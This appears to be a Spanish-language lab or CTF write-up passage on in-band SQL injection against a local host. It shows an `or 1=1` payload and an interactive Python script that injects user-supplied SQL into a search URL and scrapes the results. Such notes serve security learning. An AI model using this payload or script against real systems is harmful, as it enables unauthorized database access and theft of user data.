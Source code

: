 ## SQL injection In-Band

Podemos observar que en la URL hace alucion a un `id=1` si colocamos un `id=1' or 1=1-- -` se nos mostraran todos los usuarios existentes, esto quiere decir que es vulnerable a SQL injection:

![[Pasted image 20240103112104.png]]

Para hacer este proceso más facil haremos uso de **BurpSuite**, desde aqui confirmaremos la inyeccion gracias a una consulta la cual mostrara nuestros numeros en la tabla:

![[Pasted image 20240103112451.png]]

Desde aqui, podemos empezar a montar un script en python para facilitarnos la inyeccion

```python
#/usr/bin/env python3

import requests
import sys
import signal
import re
import time

# Variables globales
url = "http://192.168.100.194/login/search_central.php?id=100' "

# Ctrl + C
def def_handler(sig, frame):
    print("\n[+] Saliendo...\n")
    sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

def querySQLi():
    
    query = ""
    while query != "exit":
        query = input("\n[+] Introduce la query: ")
        return query

def SQLi():
    
    query = querySQLi()
    Sqli_url = url + query + "-- -"
    r = requests.get(Sqli_url)
    regex = re.findall(r"<td align='center'> (.*?)</td>", r.text)[0]
    print("\n[+] Resultado:\n")
    print(regex)

def main():
    SQLi()

if __name__ == "__main__":
    main()
```
